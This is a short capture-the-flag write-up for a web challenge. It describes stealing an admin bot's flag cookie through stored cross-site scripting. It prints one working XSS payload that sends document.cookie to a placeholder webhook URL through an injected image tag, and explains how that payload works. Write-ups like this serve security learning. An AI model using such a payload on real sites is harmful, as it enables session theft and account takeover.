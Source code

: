 # I'm the CEO Writeup

#### Overview

This was an easy web challenge that involved a XSS(Cross-site scripting) attack. The set up was a web application that allowed users to register an account to log in and post notes. Additionally, there was an admin bot page in which the admin bot would visit the page url we gave it. Looking through the source code, I found that the flag was set as the cookie of the admin bot. So the goal was to craft a XSS attack to steal its cookie.

![ceo_1](/L3akCTF2024/images/ceo_1.png)


#### Approach

In order to craft the XSS attack, I used `webhook` to generate a web server that allowed me to monitor the logs to this remote web server. I then made a post with a payload that would log the visiting browser's cookie: `<script>document.write('<img src=“[webhook_URL]?c='+document.cookie+'" />');</script>`. What this payload does is that the browser will try to get the image from the image source to display on the page, which will actually direct it to the malicious web server that will get its cookie and store the cookie into a parameter named "c".

![ceo_2](/L3akCTF2024/images/ceo_2.png)

The final step was to give the admin bot the url to the post with my malicious payload so that it would execute the script.

![ceo_3](/L3akCTF2024/images/ceo_3.png)


#### Solution

When I went back to webhook, I was able to see the request from the admin bot and get the flag from the "c" parameter.

![ceo_4](/L3akCTF2024/images/ceo_4.png)

